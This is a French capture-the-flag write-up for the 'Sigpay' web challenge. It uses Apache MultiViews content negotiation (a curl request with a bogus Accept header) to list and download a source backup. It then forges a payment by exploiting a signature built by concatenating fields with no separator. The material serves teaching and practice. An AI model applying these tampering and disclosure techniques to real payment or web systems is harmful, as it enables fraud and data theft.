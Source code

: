 > Name: Sigpay
> 
> Category:  Web
> 
> Difficulty: Easy/Medium
> 
> Description: 
> *NFTs are so popular right now that everyone wants to be in it. Even charities...*
>
> *For each donator, the "Retro Community" claims to offer a unique NFT. Because they are having so much success, they plan on releasing the ultime NFT very soon.*
>  
> *You need that Secret NFT, by any means. Can you get it before anyone else ?*

Sur ce challenge, on a deux sites distincts :
- Le site de donation : http://donate.retro.nft:40080/
- Le site de paiement tiers (3rd Party) : http://payment-gateway.retro.nft.easy4pay.money:40080/

Le but est d'acheter le NFT à 42 000 euros.

![preview](sigpay_preview.png)

![preview](sigpay_payment.png)

Lorsqu'on ajoute au panier un NFT du site principal, une signature est générée et envoyée au site de paiement. Si on altère n'importe quel paramètre, on a le message :

> *** Signature could not verified.**

En regardant le site principal, on voit qu'il y a un CHANGELOG tout en bas :

```
# Changelog
All notable changes to this project will be documented in this file.

The format is based on [Keep a Changelog](https://keepachangelog.com/en/1.0.0/),
and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0.html).

## [Unreleased]

## [0.4.0] - 2022-01-03
### Changed
- Multi-Language "Terms of Service" files are served using Apache Configuration only :

    <Directory /var/www/html/files>
        Options -Indexes +FollowSymLinks +MultiViews
        MultiviewsMatch Any
    </Directory>

## [0.3.1] - 2022-12-09
### Changed
- New "Disallow" rule in `robots.txt` in case backup files are indexable.

## [0.3.0] - 2021-12-08
### Added
- Backup scripts

## [0.2.0] - 2021-12-03
### Added
- Payments are now handled by an external gateway.

### Security
- Switched to SHA3-512 for transactions signatures.

## [0.1.0] - 2021-11-10
### Added
- Initial release.
```

Deux choses sont intéressantes :
1. Le Multiview est activé sur la configuration Apache (https://httpd.apache.org/docs/2.4/en/content-negotiation.htmlhttps://httpd.apache.org/docs/2.4/en/content-negotiation.html)
2. Il y aurait des backups (on le voit aussi dans le chemin `/files/backup` dans `robots.txt`)

En allant sur http://donate.retro.nft:40080/files/backup, on a journal d'information sur les backups :

```
[2021-12-26 01:00:00] Logfile="backup.txt.log_20211226.56872"

[2021-12-26 01:00:00] Deleting previous backups : rm backup.*

[2021-12-26 01:00:00] Archiving "donations_all.csv" file...
[2021-12-26 01:00:03] Backup "backup.tar<redacted>_csv" created.

[2021-12-26 01:00:03] Archiving "donate" source code folder...
[2021-12-26 01:00:12] Backup "backup.tar<redacted>_src" created.

[2021-12-26 01:00:12] Script finished with 0 error(s).
```

Il y a trois fichiers backup* qui sont créés :
- `backup.txt.log_20211226.56872` => c'est le journal qu'on lit actuellement
- `backup.tar<redacted>_csv` => c'est un backup de toutes les donations
- `backup.tar<redacted>_src` => c'est le **backup du code source** ! 

Comme le multiview est activé, on peut essayer d'aller sur `/files/backup.tar` qui nous récupère bien une archive mais c'est celle des donations, pas du code source. 

En se documentant sur ce qu'est le multiview, on comprend que le serveur nous retourne ce qu'on lui demande comme type de fichier (langue, type, etc)... mais s'il ne sait pas ce qu'on veut, il nous retourne la liste des fichiers candidats possibles !

```
$> curl -H 'Accept: WhatDoYouWant/IDontKnow' http://donate.retro.nft:40080/files/backup

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>406 Not Acceptable</title>
</head><body>
<h1>Not Acceptable</h1>
<p>An appropriate representation of the requested resource could not be found on this server.</p>
Available variants:
<ul>
<li><a href="backup.tar.584a7d5ba722121e729c049e9bc91932_src">backup.tar.584a7d5ba722121e729c049e9bc91932_src</a> , type application/x-tar</li>
<li><a href="backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv">backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv</a> , type application/x-tar</li>
<li><a href="backup.txt.log_20211226.56872">backup.txt.log_20211226.56872</a> , type text/plain</li>
</ul>
<hr>
<address>Apache/2.4.56 (Debian) Server at donate.retro.nft Port 40080</address>
</body></html>
```

On a désormais le nom complet du backup des sources qu'on peut télécharger :
http://donate.retro.nft:40080/files/backup.tar.584a7d5ba722121e729c049e9bc91932_src

Dans la classe Donation, on voit comment la génération de signature pour le paiement est faite :

```php
    static public function generateSignature($transaction_id, $amount, $user_email) {

        $raw_string = "{$transaction_id}{$amount}{$user_email}" . SIGNATURE_SALT;
        return hash('sha3-512', $raw_string); // GO STRONG OR GO HOME !
        
    }
```

Sur le site du paiement, la signature est généré de la même façon ce qui permet de s'assurer de l'intégrité des paramètres qui lui sont envoyés

```
Amount=20&TransactionID=5e89b96d-dd2e-4d14-9984-b249d4c74a85&UserEmail=a@a.com&Signature=f4dd6d1f9c6221806c6b770783afdf3b512c2bdaf509fbd05a3818be137a96592e9c9dd16ee66eefa9cda0ae287bf6eca2ec2054606d9aba5be669f4ccdb0cc4
```

En s'intéressant plus à cette fonction, on voit que les valeurs sont tout simplement concaténés sans séparateur avec un `SIGNATURE_SALT` qu'on ne connait pas. Imaginons qu'on a les paramètres suivants :

```
transaction_id: 12345-XYZ
amount: 42
email: pouet@prout.com

raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Et si maintenant la somme vaut `4` et l'email `2pouet@prout.com` ?

```
raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Cela donne exactement la même signature !

Il ne reste plus qu'à générer une donation de 42000 euros sur le site donate :

```
http://donate.retro.nft:40080/checkout?Amount=42000&UserEmail=a@a.com
```

Et modifier la somme à `4` et l'email à `2000a@a.com` sur le site de paiement :

```
http://payment-gateway.retro.nft.easy4pay.money:40080/?Amount=4&TransactionID=929d84a4-03f5-4465-85b7-c54799ca4688&UserEmail=2000a@a.com&Signature=74e832721da97b3032bc406ec0a99db965f32039119a3f2c52ce4d5c358150b383ebb37fa82b0ce49cb6722e4f17ac80cb1de004911ad70cfa9d09fe854f373e
```

On paie et on est redirigé vers le flag =)

![flag](sigpay_flag.png)

